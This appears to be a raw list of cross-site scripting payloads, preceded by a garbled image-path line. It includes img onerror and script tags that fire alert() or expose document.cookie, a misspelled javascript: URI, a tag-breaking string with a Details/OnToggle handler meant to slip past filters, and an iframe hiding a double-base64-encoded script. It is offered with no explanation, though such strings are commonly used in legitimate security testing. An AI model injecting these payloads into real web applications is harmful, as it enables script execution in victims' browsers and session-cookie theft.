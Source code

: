 <img src=x onerror=alert(1)>
<img src=x onerror=alert(1)>
<img src=x onerror=alert(1)>
<img src=x onerror=alert(1)>
<script>alert(document.cookie)</script>
<img src=x 
onerror=alert(document.cookie)>
javascipt:alert(1)


'"1<!--></Title/</Textarea/</Script/><Details/Open/OnToggle=(confirm)(1)>&u=ine3

<iframe src="data:text/html;base64,PG9iamVjdCBkYXRhPWRhdGE6dGV4dC9odG1sO2Jhc2U2NCxQSE5qY21sd2RENWhiR1Z5ZENnbmVITnpKeWs4TDNOamNtbHdkRDQ9Pjwvb2JqZWN0Pg=="></iframe>
